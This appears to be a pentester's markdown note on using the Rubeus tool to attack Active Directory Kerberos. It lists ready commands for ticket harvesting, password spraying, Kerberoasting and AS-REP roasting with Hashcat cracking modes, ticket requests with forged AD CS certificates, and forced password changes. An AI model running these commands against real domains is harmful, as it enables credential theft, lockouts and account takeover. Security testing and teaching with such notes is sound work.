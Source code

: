 # Using Rubeus

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux's `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Kerberos](./Kerberos.md)

## Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the current machine.
# Probably works best when run on a domain controller.
#
Rubeus.exe harvest /interval:30
```

## Password Spraying

```powershell
# Spray the specified password across all known users and generate a
# ticket giving ticket for successful authentications. (Can trigger
# account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

## Kerberoasting

```powershell
# Extract password hashes for all known kerberoastable accounts using
# Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

* [Using Hashcat](./Using%20Hashcat.md)

## AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use Hashcat to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` → `$kerb5asrep$23$`) and then use mode 18200.

## Using a Certificate to Request a Ticket

```powershell
# Request a ticket using a certificate from AD CS.
#
Rubeus.exe asktgt /user:$USER `
                  /enctype:aes256 `
                  /certificate:$CERTIFICATE_FILE `
                  /password:$CERTIFICATE_FILE_PASSWORD `
                  /outfile:$TICKET_FILE `
                  /domain:$DOMAIN `
                  /dc:$DC_IP_ADDRESS
```

This is very useful if we've used an AD CS misconfiguration as described by SpectreOps' "Certified Pre-Owned" research to forge a certificate that's valid for another user.

* [SpectreOps: Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

## Change a User's Password

```powershell
# We can use Rubeus to change the password for domain users so long as
# our ticket is for a user with permission to do so (generally the user
# themselves or a domain admin.
#
Rubeus.exe changepw /ticket:$TICKET_FILE `
                    /new:$NEW_PASSWORD `
                    /dc:$DC_IP_ADDRESS `
                    /targetuser:$DOMAIN\$USER
```
